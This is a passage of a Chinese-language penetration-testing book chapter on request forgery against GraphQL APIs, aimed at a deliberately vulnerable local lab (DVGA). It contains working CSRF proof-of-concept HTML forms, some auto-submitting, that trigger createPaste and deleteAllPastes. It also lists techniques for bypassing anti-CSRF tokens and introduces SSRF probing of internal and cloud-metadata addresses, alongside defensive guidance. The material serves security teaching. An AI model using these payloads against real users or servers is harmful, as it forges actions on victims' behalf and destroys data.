








# 请求伪造与劫持


当攻击者针对服务器和客户端执行劫持和伪造型攻击时，他们可能会采取敏感操作，造成潜在的严重后果。在本章中，我们将测试这些漏洞，并了解应用程序可能实现的防御措施，以缓解这些类型的缺陷。

*请求伪造*是指攻击者能够代表客户端或服务器执行某个操作，理想情况下是一个敏感操作。当攻击者针对客户端时，他们可能会试图强制客户端将钱转移到他们控制的数字钱包或银行账户。当攻击者针对服务器时，他们可能会试图获取敏感的服务器端数据，探测隐藏或内部服务，向受限网络发起内部请求，访问与云环境相关的信息等等。相对而言，*劫持*指的是窃取另一个用户的会话。

在 GraphQL 的背景下，这些攻击方式都构成威胁。我们将讨论这些攻击可能采取的三种形式：跨站请求伪造（CSRF）、服务器端请求伪造（SSRF）和跨站 WebSocket 劫持（CSWSH）。

## 跨站请求伪造

通常发音为 *sea-surf*，*CSRF* 是一种客户端攻击，导致受害者在已认证的网页上执行不希望的操作。在这种攻击中，攻击者编写代码并将其嵌入到他们操作的网站中（有时也可以是允许他们这样做的第三方网站）。然后，他们通过社会工程学等攻击手段迫使受害者访问该站点。当代码在受害者的浏览器中执行时，它会伪造并向服务器发送请求。

这些请求往往会执行改变状态的操作。它们可能会更新账户的电子邮件或密码，从一个账户转账到另一个账户，禁用账户的安全设置，如多因素认证，授予权限，甚至向应用程序添加新账户。图 9-1 展示了典型的 CSRF 攻击流程，以下以银行网站为例。



图 9-1：CSRF 攻击流程

CSRF 利用这样一个事实：当客户端已登录应用程序时，浏览器在每次发出的 HTTP 请求中都会发送必要的信息，如会话 cookie（在 `Cookie` 头中），以及 `Host` 或 `User-Agent` 等其他标准头部。Web 服务器无法区分合法请求与用户被欺骗后发出的请求，这就是为什么当没有采取防范措施时，CSRF 攻击会非常有效的原因。

攻击者使用多种技术来实现 CSRF，但一种常见的策略依赖于使用 `<form>` 标签创建的特殊 HTML 表单。攻击者等待用户在其网站上提交表单，或者为了提高成功的几率，使用 JavaScript 代码自动提交表单。当条件允许攻击者使用 GET 方法执行 CSRF 攻击时，他们还可能使用诸如 `<a>` 和 `` 等 HTML 标签作为载体。这些标签通常不会被认为是有害的，但它们可能为攻击者提供在允许插入图像链接和超链接的网站中嵌入 CSRF 有效载荷的选项。这些标签只能发起普通的 GET 请求，因此如果一个网站已经设置了反 CSRF 令牌，攻击可能不会成功。

由于 CSRF 攻击依赖于受害者的已验证会话，攻击者只能执行受害者在网站上被允许执行的操作。例如，如果受害者登录到银行网站，但每天只能转账 1,000 美元，则 CSRF 攻击将仅限于转账这一金额。此外，如果某个请求需要管理员级别的权限，而客户端会话没有该权限，请求将会失败。第七章提供了绕过某些 GraphQL 授权控制的技术。

CSRF 至少已经有二十年的历史。我们能找到的第一个与 CSRF 相关的漏洞，CVE-2002-1648，来自 2002 年，虽然有些人认为 CSRF 漏洞可能早在 2001 年就已经存在。当谈到 GraphQL 时，开发者可以使用查询或突变来构建支持执行敏感操作（例如更改账户设置或从一个账户转账到另一个账户）的模式。这可能允许攻击者执行状态改变操作。正如你所学到的，状态改变操作通常通过突变来执行。然而，开发者可能选择通过查询来实现这些操作。

### 定位状态改变操作

*状态改变操作*以某种方式更改应用程序。例如，将 DVGA 的模式从“初学者”更改为“专家”，或反之，这被视为状态改变操作。如果你在寻找 CSRF 漏洞，你应该瞄准这些操作。正如你现在所知，GraphQL 中的状态改变操作通常通过突变（mutations）来执行。然而，有时你也可以通过使用 GraphQL 查询来执行改变状态的写操作。

让我们从更可能的场景开始：根据突变（mutations）识别状态改变操作。为了找到有影响的 CSRF 漏洞，可以尝试提取可用突变的列表，并寻找那些能够让你在应用中占据立足点或允许你提升现有权限的突变。清单 9-1 中显示的 introspection 查询应该返回模式中存在的突变字段。

```
**query {**
 **__schema {**
 **mutationType {**
 **fields {**
 **name**
 **}**
 **}**
 **}**
**}**
```

清单 9-1：提取突变字段名称的 introspection 查询

使用 Altair 对 DVGA 执行此查询，确保 DVGA 的模式设置为初学者。你应该能够识别出一些状态变化的操作，例如 `createUser`、`importPaste`、`editPaste`、`uploadPaste`、`deletePaste` 和 `createPaste`。

如果你没有发现任何敏感操作，接下来要查看的是是否可以使用查询来执行状态变化的操作。GraphQL 服务器有时支持通过 GET 进行操作，当它们这样做时，可能会故意拒绝基于 GET 的突变操作，只允许通过 GET 执行读取操作。这为防止类似 CSRF 的漏洞提供了一定的保护，正如你将在本章后面学到的那样。然而，如果我们的目标使用任何基于 GET 的查询来执行重要的状态变化，那么这个缓解措施就是无效的。执行列表 9-2 中显示的自省查询，以获取可用查询的名称。

```
**query {**
 **__schema {**
 **queryType {**
 **fields {**
 **name**
 **}**
 **}**
 **}**
**}**
```

列表 9-2：提取查询字段名称的自省查询

这是返回列表的一个摘录：

```
{
  "name": "search"
},
{
  "name": "audits"
},
{
  "name": "deleteAllPastes"
}
`--snip--`
```

有没有哪个查询名称特别引人注目？列表中有几个潜在的状态变化查询，但 `deleteAllPastes` 尤为引人注意。一个删除所有粘贴的查询比查询更适合做为突变操作。然而，由于这个应用程序存在漏洞，它没有考虑到 CSRF 问题。

### 测试基于 POST 的漏洞

现在我们已经识别出一些状态变化的查询和突变，可以尝试构造一个 HTML 表单来利用它们。我们的攻击可能会诱使用户点击一个链接，该链接会将他们重定向到一个恶意网站，网站上包含像列表 9-3 中的表单。提交后，它将使用 `createPaste` 突变向 DVGA 发起一个 POST 请求。

```
<html>
  <h1>Click the button below to see the proof of concept!</h1>
  <body>
     <form id="auto_submit_form" method="POST" action="http://localhost:5013/graphql">
       <input type="hidden" name="query" value="mutation { createPaste(title:&quot;CSRF&quot;,
content:&quot;content&quot;,
public:true, burn: false) { paste { id content title burn } }}"/>
       <input type="submit" value="Submit">
     </form>
  </body>
<html>
```

列表 9-3：基于 HTML 表单的 POST 类型 CSRF 利用

我们使用 `method` 属性定义一个名为 `query` 的 POST 类型表单。该表单将向 DVGA 的 URL 发起请求，该 URL 定义在 `action` 属性中。你会注意到，我们还通过将 `type` 属性设置为 `hidden` 来定义一个隐藏的 `<input>` 标签。这确保了用于执行查询的表单对受害者来说是不可见的；它不会在他们的浏览器中显示。我们在 `value` 属性中对 GraphQL 突变进行编码并定义。该突变的解码版本如下：

```
mutation {
  createPaste(title: "CSRF", content: "content", public: true, burn: false) {
    paste {
      id
      content
      title
      burn
    }
  }
}
```

要观察这个表单在攻击中的表现，从本书的 GitHub 仓库下载 CSRF 概念验证代码：[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/post_csrf_submit.html`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/post_csrf_submit.html)。将此文件保存到 Kali 的桌面，扩展名为 *.html*。

接下来，让我们使用 Burp Suite 查看在 CSRF 攻击中发送的外部请求。启动 Burp Suite 并通过点击**打开浏览器**来打开其内置浏览器。确保当前设置为不拦截请求。然后，将桌面上的 HTML 文件拖放到浏览器窗口中。你应该会看到图 9-2 中显示的“提交”按钮。



图 9-2：基于 POST 的 CSRF 示例

在 Burp 中，切换拦截按钮到 **拦截已开启**。现在，点击表单中的 **提交** 按钮，并观察 Burp 的代理标签中产生的请求。它应该与 图 9-3 类似。



图 9-3：受害者浏览器在 CSRF 攻击后发送的 POST 请求

如你所见，变更被编码并作为单一值发送到 `query` 请求体参数。这是因为基于 POST 的 HTML 表单将 `<input>` 标签转化为 HTTP 请求体参数，而我们使用了一个名为 `query` 的输入标签。

因为 HTML 表单在没有像 JavaScript 这样的语言帮助下无法发送 JSON 格式的数据，所以提交的变更并没有作为 JSON 发送，这一点可以从 `Content-Type` 头部看出。这里，它被设置为 `application/x-www-form-urlencoded` 而不是 `application/json`。尽管如此，一些 GraphQL 服务器可能会在后台将有效负载转换回 JSON，即使没有正确的 `Content-Type` 头部。

当 HTML 表单使用 POST 方法时，我们可以使用以下三种编码类型之一来编码数据：`application/x-www-form-urlencoded`、`multipart/form-data` 或 `text/plain`。默认情况下，当未设置 `enctype` 属性时，例如在我们的利用代码中，表单使用 `application/x-www-form-urlencoded`，它会在发送到服务器之前对所有字符进行编码。现在你已经看到 CSRF 利用如何触发一个 GraphQL 查询，点击 **转发** 将其发送到服务器。

### 自动提交 CSRF 表单

诱使用户点击按钮可能会带来一些挑战。如果用户犹豫不决而未继续操作，我们的攻击就会失败。假如我们能在用户访问页面后立即自动提交表单呢？这可以通过 JavaScript 代码来实现。列表 9-4 会在有人访问页面后两秒自动执行表单提交。

```
async function csrf() {
    for (let i = 0; i < 2; i++) {
        await sleep(i * 1000);
    }
    **document.forms['auto_submit_for'].submit();**
}
```

列表 9-4：使用 JavaScript 自动提交表单

这两秒的延迟是为了让你有时间理解你正在查看的内容。在实际应用中，你将希望立即代表受害者伪造请求，而无需任何延迟。

要查看此攻击的实际效果，请下载文件 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/post_csrf_submit_auto.html`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/post_csrf_submit_auto.html) 到 Kali 的桌面。接下来，切换 Burp 的拦截模式；然后将下载的文件拖放到浏览器中。只要你放下它，`此表单将在 2 秒内自动提交` 的消息应该会出现。接下来，你应该能在 Burp 中看到被拦截的 POST 请求。如果你点击转发，你应该会看到浏览器中来自 GraphQL API 的响应，表明变更导致创建了一个新的粘贴，并包括一些元数据，如粘贴的 ID、标题等。

为了验证粘贴创建是否成功，打开 DVGA 用户界面，访问*http://localhost:5013*，并进入公共粘贴页面。你应该能够在图 9-4 中看到新创建的粘贴。



图 9-4：通过 CSRF 攻击创建的粘贴

恭喜你！你刚刚成功模拟了代表受害者伪造粘贴变更操作。

### 测试基于 GET 的漏洞

许多 GraphQL 实现禁止使用 GET 方法，但通过 GET 方法发送变更操作（mutation）尤其被视为禁忌，因为这被认为是一个安全风险，可能导致 CSRF 漏洞，正如你所学到的那样。通常，GraphQL 服务器会拒绝任何使用 GET 方法的变更请求。要测试一个 GraphQL 服务器是否支持它们，你可以发送如下的 cURL 命令：

```
# curl -X GET "http://localhost:5013/graphql?query=mutation%20%7B%20__typename%20%7D"
```

`%20`表示空格，`%7B`和`%7D`是变更查询的 URL 编码形式的左花括号（`{`）和右花括号（`}`），加号（`+`）表示编码后的空格。将此发送给 DVGA 后，cURL 命令的响应如下：

```
{"errors":[{"message":"Can only perform a mutation operation from a POST request."}]}
```

如你所见，DVGA 不允许使用 GET 方法进行变更操作。然而，在渗透测试中，假设没有什么是不可行的，测试所有假设，因为你永远不知道何时会遇到一个完全自定义的 GraphQL 实现，它可能偏离了标准。

基于 GET 的 CSRF 攻击比基于 POST 的攻击更有趣，因为应用程序通常不会在 GET 请求上实现反 CSRF 防护。这是因为状态变化的操作通常使用其他 HTTP 方法。如果服务器允许通过 GET 方法进行变更操作，我们可以利用 HTML 锚点（`<a>`）标签和超文本引用属性（`href`）构建一个超链接，将变更操作发送到服务器。锚点标签只执行基于 GET 的请求，这也是为什么它不适合用来进行 POST 基础的 CSRF 攻击：

```
<a href="http://localhost:5013/graphql?query=mutation{someSensitiveAction}" />
```

或者，我们可以使用带有源（`src`）属性的图片标签（``）来嵌入我们的变更操作，像这样：

```

```

这种技术适用于任何允许你指定看起来无害的 HTML 标签（如`<a>`和``）的平台。因此，除了诱使受害者访问包含这些链接的攻击者控制的网站之外，你还可以在接受 URL 并在客户端渲染链接的合法网站中使用它们。结果，客户端会向攻击者选择的另一个网站发出直接的 GET 请求。

虽然我们不能通过 GET 方法向 DVGA 发送变更操作，但我们可以尝试使用 GET 方法发送会改变状态的查询`deleteAllPastes`。顾名思义，`deleteAllPastes` 查询将删除服务器数据库中的所有粘贴。我们可以通过 GET 或 POST 来利用这个查询。

为了执行这样的 CSRF 攻击，本文档使用`<form>`标签来提交查询。通过`<script>` HTML 标签定义的 JavaScript 代码会在受害者加载页面后自动发起请求：

```
<html>
  <body>
    <h1>This form is going to submit itself in 2 seconds...</h1>
     <form id="auto_submit_form" **method="GET"** action="http://localhost:5013/graphql">
       <input type="hidden" name="query" value="**query { deleteAllPastes }**"/>
       <input type="submit" value="Submit">
     </form>
  </body>

<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function csrf() {
    for (let i = 0; i < 2; i++) {
        await sleep(i * 1000);
    }
    document.forms['auto_submit_form'].submit();
}

csrf();

</script>
<html>
```

要测试此攻击，将文件 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/get_csrf_submit_auto.html`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/get_csrf_submit_auto.html) 保存到桌面作为 HTML 文件。确保 Burp Suite 正在拦截流量，然后将 HTML 文件拖放到浏览器窗口中。你应该能在两秒钟后看到发送的外发 HTTP GET 请求：

```
GET /graphql?query=**query+%7B+deleteAllPastes+%7D** HTTP/1.1
Host: localhost:5013
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
`--snip--`
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

我们可以利用 CSRF 来伪造一个删除所有粘贴内容的 GET 查询。现在让我们尝试使用 HTML 标签（例如 `<a>` 和 ``）来触发基于 GET 的 CSRF 攻击。做到这一点的一种方法是创建一个 HTML 页面，通过 `` 标签执行 GET 请求，就像列表 9-5 中的示例一样。

```
<html>
<body>
  <h1>GET-based CSRF using an image tag</h1>
  
</body>
</html>
```

列表 9-5：使用图片标签的 GET 基于 CSRF 攻击

将此保存为 HTML 文件。如前所述，页面加载后它将立即执行，因为浏览器会尝试获取 `src` 属性中定义的 URL，并发送 GraphQL 查询。

### 使用 HTML 注入

我们可以通过滥用另一种漏洞来利用基于 GET 的 CSRF 攻击，例如*HTML 注入*，它允许攻击者将 HTML 标签注入网页中。如果受害者访问该网站，他们的浏览器将渲染这些 HTML 代码。特别是，如果攻击者能够使用 `<a>` 标签注入超链接或使用 `` 标签注入图片链接，客户端在访问页面时会发起 GET 请求，遵循标签的默认行为。

我们能否通过 HTML 注入在 DVGA 上触发 CSRF 攻击？让我们来看看。打开 Firefox，导航到 ***http://localhost:5013***，并转到 **Public Pastes** 页面。接着，打开开发者工具（CTRL-SHIFT-I），并转到 **Network** 标签。确保 Altair 指向 *http://localhost:5013/graphql*，然后输入 列表 9-6 中的突变代码，这将创建一个带有 CSRF 有效负载的粘贴内容。

```
mutation {
  createPaste(content:"", title:"CSRF using image tags", public: true,
burn: false) {
    paste {
      id
      content
 }
  }
}
```

列表 9-6：创建包含 CSRF 有效负载的粘贴内容

此请求将包含 `deleteAllPastes` 查询的 `` 标签注入到公共粘贴页面中。为了做到这一点，它依赖于 DVGA 通过使用 GraphQL 订阅（以 WebSocket 作为传输协议）来获取粘贴数据的事实。你的浏览器订阅了新的粘贴创建事件，因此每当创建新粘贴时，订阅会自动将其标题、内容和其他信息填充到页面中。通过将我们的有效负载放入 `createPaste` 的 `content` 字段，我们有效地将其嵌入到页面中。

现在，当客户端使用 `createPaste` 和 `content` 字段发送查询时，它们会渲染该有效负载。仔细观察当你发送查询后网络标签中发生的情况。你应该看到图 9-5 中显示的外发 GET 请求。



图 9-5：通过 HTML 图片标签发送的 GET 查询，包含 CSRF 有效负载

如果你刷新浏览器，你应该不会再看到任何粘贴内容，因为 CSRF 攻击应已将其删除。点击位于右上角下拉菜单中的 **回滚 DVGA** 以恢复服务器的原始状态。

我们已经讨论了基于 GET 和 POST 的 CSRF 攻击。我们还讨论了部分 GraphQL 服务器如何通过拒绝使用 GET 方法的变更操作来防止 CSRF 攻击，以及如何对此进行测试。接下来，让我们使用 BatchQL 和 GraphQL Cop 自动标记可能存在 CSRF 漏洞的 GraphQL 服务器。

### 使用 BatchQL 和 GraphQL Cop 自动化测试

BatchQL 有多个与 CSRF 相关的测试用例。让我们将其应用于 DVGA，看看我们能获得哪些关于其 CSRF 漏洞的信息：

```
# cd ~/batchql
# python3 batch.py -e http://localhost:5013/graphql | grep -i CSRF

CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
```

如你所见，我们使用了带 `-i` 标志的 `grep` 来筛选出与 CSRF 漏洞无关的结果。BatchQL 检测到 GET 和 POST 都允许非 JSON 基础的查询。

GraphQL Cop 在测试 CSRF 漏洞方面与 BatchQL 相似，只不过它额外测试服务器是否支持 GET 方法下的变更操作：

```
# cd ~/graphql-cop
# python3 graphql-cop.py -t http://localhost:5013/graphql | grep -i CSRF

[MEDIUM] GET Method Query Support - GraphQL queries allowed
using the GET method (Possible Cross Site Request Forgery (CSRF))
[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts
non-JSON queries over POST (Possible Cross Site Request Forgery)
```

自动化工具可能会引入误报，因此我们建议始终手动验证其结果的准确性。

### 防止 CSRF

自 CSRF 被发现以来，浏览器厂商如 Mozilla 和 Google 已大大改进了其 CSRF 缓解措施。各种开源 Web 服务器框架也使得 CSRF 漏洞变得极难利用。本节解释了今天浏览器和服务器层面上存在的 CSRF 缓解措施。

#### SameSite 标志

浏览器已开始支持一种特殊的 HTTP cookie 属性，名为 `SameSite`。这个属性允许开发人员决定在进行跨站请求时，客户端浏览器是否应附带该 cookie。要设置此 cookie 属性，应用程序需要设置一个 `Set-Cookie` 响应头。这可以阻止 CSRF 攻击从攻击者网站（如 *attacker.com*）向目标网站（如 *banking.com*）发送请求。

使用 `SameSite` 属性的一大挑战是旧版浏览器可能不支持该属性。然而，大多数现代浏览器都支持该属性。Mozilla 的开发者网站有一个专门的板块，介绍了 `SameSite` 在浏览器中的支持情况，开发者可以作为参考。

`SameSite` cookie 属性接受三个值：

`Strict` 仅在用户浏览同一源时发送 cookie

`Lax` 仅在请求使用 HTTP GET 并且不是由脚本发起时（例如通过顶级导航）发送 cookies。

`None` 在跨站请求时发送 cookie，实际上提供了零保护。

设置了 `SameSite` 属性的 GraphQL 服务器将返回一个 `Set-Cookie` HTTP 响应头：

```
Set-Cookie: session=mysecretsession; SameSite=Strict
```

当网站设置 cookie 时未指定 `SameSite` 属性时，现代浏览器（如 Chrome）会默认将其设置为 `Lax`。当 cookie 的值设置为 `Strict` 时，如果发生 CSRF 攻击，cookie 将不会在跨站请求中发送。

#### 反 CSRF 令牌

为了在服务器级别防止 CSRF 漏洞，web 框架引入了 *反 CSRF 令牌*。这些令牌是难以猜测、加密强度高且唯一的字符串，由服务器生成。服务器期望客户端在每个请求中都传递反 CSRF 令牌。当服务器看到没有此类令牌的请求时，会拒绝该请求。

服务器可以每次请求生成反 CSRF 令牌，或者为用户会话的生命周期生成一次。每次请求生成令牌是一种更强的缓解措施，也更难以被攻破，因为它减少了攻击者获取有效令牌的时间。一旦令牌失效，服务器应该不再接受该令牌。

客户端通常通过 HTTP 请求头（如 `X-CSRF-TOKEN`）或 HTTP 请求体参数（如 `csrf-token`）将反 CSRF 令牌发送到服务器。许多 web 框架内置支持 CSRF 防护，使开发者能够构建安全的应用程序，而无需从头实现 CSRF 防御。以下是一个包含反 CSRF 令牌的 HTTP 请求示例：

```
POST /graphql HTTP/1.1
Host: localhost:5013
Content-Length: 19
Content-Type: application/x-www-form-urlencode
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.3

query=mutation+%7B+createPaste%28title%3A%22CSRF%22%2C+content%3A%22content%22
%2C+public%3Atrue%2C+burn%3A+false%29+%7B+paste+%7B+id+content+title+burn+%7D+
%7D%7D&**csrf-token=asij2nrsc82kssadis**
```

需要记住的是，像其他任何安全控制一样，如果令牌实现不当，也可能被攻破。以下是攻击者可能绕过反 CSRF 令牌的一些方式：

+   **移除 CSRF 令牌值。** 一些反 CSRF 实现可能会在存在 CSRF 参数但未设置值的情况下失败，导致空值。

+   **完全移除 CSRF 参数和令牌值。** 一些反 CSRF 实现可能会在未设置参数时失败。

+   **在后续请求中重复使用 CSRF 令牌。** 如果攻击者能够捕获一个有效的反 CSRF 令牌，例如属于他们自己会话的令牌，并且服务器没有使已经使用的令牌失效，那么该令牌可能会在 CSRF 攻击中被重用。

+   **用相同字符长度的随机字符串替换 CSRF 令牌。** 一些服务器可能只检查令牌值并验证其长度。如果长度与正常令牌的长度相等（例如，14 个字符），它们可能会允许请求通过。

+   **暴力破解 CSRF 令牌。** 一些 CSRF 令牌可能在加密上较弱，允许攻击者进行暴力破解。例如，它们可能较短，使用可预测的模式，或采用较弱的加密算法。

浏览器和服务器级别的 CSRF 防护结合在一起，遵循深度防御安全原则，使得 CSRF 攻击更难以被攻击者利用。

## 服务器端请求伪造

*SSRF*允许攻击者代表受影响的服务器执行请求。使用 SSRF，攻击者可以迫使服务器建立与内部服务的连接，通常提供对受限网络区域、内部 API 和敏感数据的访问。Web 应用程序可以通过多种方式引入 SSRF。应用程序经常向客户端公开功能，让客户端提供输入，并使用它执行特定的操作。例如，考虑一个允许用户提供来自特定网站（如*imgur.com*）的照片 URL 的应用程序。然后，应用程序会下载照片，并将其作为附件通过电子邮件发送给用户。

在这个示例中，应用程序期望两个输入：一个指向包含图像的*imgur.com*的 URL，和一个电子邮件地址。如果攻击者提供其他输入，比如类似*http://lab.blackhatgraphql.com/cat.png*这样的 URL 和*info@blackhatgraphql.com*这样的电子邮件地址，会怎么样？如果应用程序不验证输入，比如确保 URL 的域名是*imgur.com*，那么一旦用户提交这些信息，应用程序可能会尝试访问由攻击者控制的网站，将图像下载到磁盘并保存到文件夹中。然后可能会使用命令行实用程序或脚本将带有附件的电子邮件发送给用户。

攻击者还可以提供各种 URL 作为输入，包括包含私有非路由 IP 地址的 URL（如*172.16.0.0/24*或*10.10.0.0/24*）。如果服务器恰好存在于这些范围存在的网络上，可能会执行对内部服务的调用，如数据库或网络上的内部网站，允许攻击者读取本应无法访问的服务器的响应。攻击者还可以尝试猜测内部 URL，希望能够着陆到解析为内部地址的有效 URL（如*internal.example.com*、*internal2.example.com*等）。

随着云基础设施的采用，SSRF 已成为黑客发现的最大漏洞之一。这是因为许多云提供商托管元数据端点 URL，允许云实例读取关于自身的信息，如分配给实例的角色和正在使用的凭据。由于 SSRF 可能允许攻击者进行内部调用，它可以使他们能够获取有关易受攻击服务器的敏感信息的能力。

攻击者可以尝试对除了 HTTP 之外的多种协议进行 SSRF，例如文件传输协议（FTP）、服务器消息块（SMB）、轻量目录访问协议（LDAP）等等。而且，就像其他 API 技术一样，GraphQL 对 SSRF 漏洞也并不免疫。

### 理解 SSRF 的类型

在进行 GraphQL 渗透测试时，可能会遇到三种类型的 SSRF 漏洞。就像你在第八章学到的盲目 SQL 注入一样，*盲目 SSRF* 漏洞不会提供任何具体的可视化标志来表明漏洞的存在。相反，攻击者可以通过使用可以监听各种协议消息的带外利用工具，推断漏洞的存在。

例如，回想一下我们之前讨论的 URL 图像获取服务。在利用盲目 SSRF 时，攻击者可能能够通过捕获托管 *lab.blackhatgraphql.com* 的远程服务器上的流量来判断应用程序是否存在漏洞。当攻击者提交 URL *http://lab.blackhatgraphql.com/cat.png* 时，应用程序可能会在尝试通过 HTTP 执行图像获取之前，先在不同协议上发起某些连接，例如在端口 80 上的 TCP 连接。这可能表明应用程序正在尝试连接攻击者控制的服务器。

另一种确定盲目 SSRF 存在的方法是通过时序分析。攻击者可以在人为控制的服务器返回的 HTTP 响应中引入故意的人工延迟，然后通过受害应用程序返回响应所花费的时间来确定攻击是否成功。

顾名思义，*半盲 SSRF* 提供了一些证据，但不是完全的指示，表明 SSRF 漏洞存在。这些信息可能包括错误或部分服务器响应。想象一下，攻击者尝试提交各种内部 URL 给图像获取服务，以试图发现主机所在的网络。例如，他们可能提交 *http://10.10.0.254/index.html* 或 *http://172.12.0.254/index.html*。在成功的尝试中，应用程序可能会发送没有附件的电子邮件，而在失败的尝试中，则根本不会发送电子邮件。

